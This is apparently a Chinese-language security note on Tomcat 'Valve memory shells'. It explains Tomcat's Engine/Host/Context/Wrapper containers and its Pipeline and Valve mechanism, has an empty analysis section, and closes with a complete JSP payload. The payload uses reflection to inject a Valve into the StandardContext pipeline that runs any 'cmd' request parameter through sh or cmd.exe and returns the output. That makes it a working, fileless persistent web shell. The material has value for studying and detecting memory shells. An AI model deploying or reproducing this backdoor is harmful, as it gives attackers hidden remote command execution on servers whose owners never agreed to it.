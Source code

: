 # Valve内存马

## 1.基础知识

> `tomcat`中的`Container`有4种，分别是`Engine`、`Host`、`Context`和`Wrapper`，这`4`个`Container`的实现类分别是`StandardEngine`、`StandardHost`、`StandardContext`和`StandardWrapper`。`4`种容器的关系是包含关系，`Engine`包含`Host`，`Host`包含`Context`，`Context`包含`Wrapper`，`Wrapper`则代表最基础的一个`Servlet`。 `tomcat`由`Connector`和`Container`两部分组成，而当网络请求过来的时候`Connector`先将请求包装为`Request`，然后将`Request`交由`Container`进行处理，最终返回给请求方。而`Container`处理的第一层就是`Engine`容器，但是在`tomcat`中`Engine`容器不会直接调用`Host`容器去处理请求，那么请求是怎么在`4`个容器中流转的，4个容器之间是怎么依次调用的呢？
>
> 原来，当请求到达`Engine`容器的时候，`Engine`并非是直接调用对应的`Host`去处理相关的请求，而是调用了自己的一个组件去处理，这个组件就叫做`pipeline`组件，跟`pipeline`相关的还有个也是容器内部的组件，叫做`valve`组件。
>
> `Pipeline`的作用就如其中文意思一样——管道，可以把不同容器想象成一个独立的个体，那么`pipeline`就可以理解为不同容器之间的管道，道路，桥梁。那`Valve`这个组件是什么东西呢？`Valve`也可以直接按照字面意思去理解为阀门。我们知道，在生活中可以看到每个管道上面都有阀门，`Pipeline`和`Valve`关系也是一样的。`Valve`代表管道上的阀门，可以控制管道的流向，当然每个管道上可以有多个阀门。如果把`Pipeline`比作公路的话，那么`Valve`可以理解为公路上的收费站，车代表`Pipeline`中的内容，那么每个收费站都会对其中的内容做一些处理（收费，查证件等）。
>
> 在`Catalina`中，`4`种容器都有自己的`Pipeline`组件，每个`Pipeline`组件上至少会设定一个`Valve`，这个`Valve`我们称之为`BaseValve`，也就是基础阀。基础阀的作用是连接当前容器的下一个容器（通常是自己的自容器），可以说基础阀是两个容器之间的桥梁。
>
> `Pipeline`定义对应的接口`Pipeline`，标准实现了`StandardPipeline`。`Valve`定义对应的接口`Valve`，抽象实现类`ValveBase`，`4`个容器对应基础阀门分别是`StandardEngineValve`，`StandardHostValve`，`StandardContextValve`，`StandardWrapperValve`。在实际运行中，`Pipeline`和`Valve`运行机制如下图：

![img](./img/image-20240129171852854.png)

## 2.原理分析











## 3.代码实现

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.core.ContainerBase" %>
<%@ page import="org.apache.catalina.core.StandardPipeline" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%
    Field requestField = request.getClass().getDeclaredField("request");
    requestField.setAccessible(true);

    Request request1 = (Request) requestField.get(request);
    StandardContext standardContext = (StandardContext) request1.getContext();

    Field containerBasePipeline = ContainerBase.class.getDeclaredField("pipeline");
    containerBasePipeline.setAccessible(true);
    StandardPipeline standardPipeline = (StandardPipeline) containerBasePipeline.get(standardContext);

    ValveBase valveBase = new ValveBase() {
        @Override
        public void invoke(Request request, Response response) throws IOException, ServletException {
            if (request.getParameter("cmd") != null ){
                boolean isLinux = true;
                String os = System.getProperty("os.name");

                if (os != null && os.toLowerCase().contains("win")) {
                    isLinux = false;
                }

                String[] exp = isLinux ? new String[]{"sh","-c",request.getParameter("cmd")} : new String[]{"cmd.exe","/c",request.getParameter("cmd")};
                InputStream inputStream = Runtime.getRuntime().exec(exp).getInputStream();
                Scanner s = new Scanner(inputStream).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
            }
        }
    };

    standardPipeline.addValve(valveBase);
    out.println("success...");
%>
```





